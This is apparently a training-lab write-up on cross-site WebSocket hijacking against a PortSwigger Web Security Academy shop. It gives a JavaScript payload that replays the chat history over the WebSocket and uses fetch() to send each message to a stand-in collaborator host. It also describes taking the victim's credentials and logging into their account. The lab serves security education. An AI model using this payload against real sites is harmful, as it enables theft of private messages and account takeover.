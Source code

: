 # Cross-site WebSocket hijacking

## Description

[This online shop](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) has a live chat feature implemented using WebSockets. 

## Reproduction and proof of concept

1. Click "Live chat" and send a chat message.
2. Reload the page.
3. In Burp Proxy, in the WebSockets history tab, observe that the `READY` command retrieves past chat messages from the server.
4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
5. Right-click on the handshake request and select **Copy URL**.
6. In browser, go to the exploit server and paste this template into the `Body` section of the form:

```text
<script>
    var ws = new WebSocket('wss://0a18000803f6c281c1c86b78006d00ba.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

7. Replace the WebSocket URL with the URL from the WebSocket handshake (`lab-id.web-security-academy.net/chat`). Make sure to change the protocol from `https://` to `wss://`. Replace `collaborator-url` with a payload generated by Burp Collaborator Client. Mind the `https://` remains in the URL.

![Websockets](../../_static/images/sockets5.png)

8. **Store** and click **View exploit**.
9. Poll for interactions using Burp Collaborator client. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10. Go back to the exploit server and deliver the exploit to the victim.
11. **Poll now** for interactions using Burp Collaborator client again. More HTTP interactions have been received, now containing the victim's chat history. One of them contains the victim's username and password.

![Websockets](../../_static/images/sockets6.png)

12. Use the exfiltrated credentials to log in to the victim user's account.

![Websockets](../../_static/images/sockets7.png)

## Exploitability

An attacker will need to use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this to gain access to their account. 
